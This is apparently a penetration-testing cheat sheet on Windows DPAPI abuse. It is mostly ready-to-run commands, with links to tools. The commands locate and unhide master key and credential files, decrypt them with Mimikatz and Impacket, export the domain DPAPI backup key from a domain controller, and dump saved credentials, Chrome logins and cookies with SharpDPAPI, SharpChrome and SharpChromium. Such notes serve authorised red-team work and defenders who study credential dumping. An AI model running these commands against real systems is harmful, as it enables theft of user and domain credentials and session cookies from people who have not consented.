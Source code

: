```yaml
---
description: Data Protection API
---
```


# DPAPI

* [https://habr.com/ru/post/434514/](https://habr.com/ru/post/434514/)

{% file src="/.gitbook/assets/ZN17 - Hunting for Credentials Dumping in Windows Environment (Teymur Kheirkhabarov).pdf" %}

Master keys locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\ (%appdata%\Microsoft\Protect\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Protect\ (%localappdata%\Microsoft\Protect\)
```

Credential files locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Credentials\ (%appdata%\Microsoft\Credentials\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\ (%localappdata%\Microsoft\Credentials\)
```

Unhide files:

```
PS > cmd /c "attrib -h -s 00ff00ff-00ff-00ff-00ff-00ff00ff00ff"
PS > cmd /c "attrib -h -s 00ff00ff00ff00ff00ff00ff00ff00ff"
```




## Mimikatz

* [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

Decrypt manually offline with known plaintext password:

```
mimikatz # dpapi::masterkey /in:00ff00ff-00ff-00ff-00ff-00ff00ff00ff /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:Passw0rd!
mimikatz # dpapi::cache
mimikatz # dpapi::cred /in:00ff00ff00ff00ff00ff00ff00ff00ff
```




## Impacket

Retrieve the domain DPAPI backup key (never changes) from a DC to decrypt master key and blobs:

```
$ dpapi.py backupkeys --export -k -no-pass -t DC01.megacorp.local
$ dpapi.py masterkey -file ./Users/Administrator/AppData/Roaming/Microsoft/Protect/<SID>/00ff00ff-00ff-00ff-00ff-00ff00ff00ff -pvk 'G$BCKUPKEY_<GUID>.pvk
$ dpapi.py credential -file ./Users/Administrator/AppData/Roaming/Microsoft/Credentials/00ff00ff00ff00ff00ff00ff00ff00ff -key 0x<HEX_MASTER_KEY>
```




## SharpDPAPI

* [https://github.com/GhostPack/SharpDPAPI#table-of-contents](https://github.com/GhostPack/SharpDPAPI#table-of-contents)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1)

Triage user's *credentials*, *vaults*, *rdg* and *certificates*:

```
Cmd > .\SharpDPAPI.exe triage /password:Passw0rd!
```

Triage machine's credentials (*machinecredentials*), vaults (*machinevaults*) and certificates (*certificates /machine*):

```
Cmd > .\SharpDPAPI.exe machinetriage
```

Retrieve the domain DPAPI backup key (never changes) from a DC to decrypt master key and blobs for any user in the domain with it (needs DA privileges):

```
Cmd > .\SharpDPAPI.exe backupkey /nowrap [/server:DC01.megacorp.local] [/file:key.pvk]
Cmd > .\SharpDPAPI.exe credentials /pvk:key.pvk [/server:PC01.megacorp.local]
```



### SharpChrome

- [https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands](https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands)

```
Cmd > .\SharpChrome.exe logins|cookies [/pvk:key.pvk]
```




## SharpChromium

- [https://github.com/djhohnstein/SharpChromium](https://github.com/djhohnstein/SharpChromium)

```
Cmd > dir "C:\Users\snovvcrash\AppData\Local\Google\Chrome\User Data\Default"
Cmd > .\SharpChromium.exe logins
Cmd > .\SharpChromium.exe cookies
```




## Tools

- [https://github.com/login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)
- [https://github.com/zblurx/dploot](https://github.com/zblurx/dploot)
- [https://github.com/leftp/DPAPISnoop](https://github.com/leftp/DPAPISnoop)
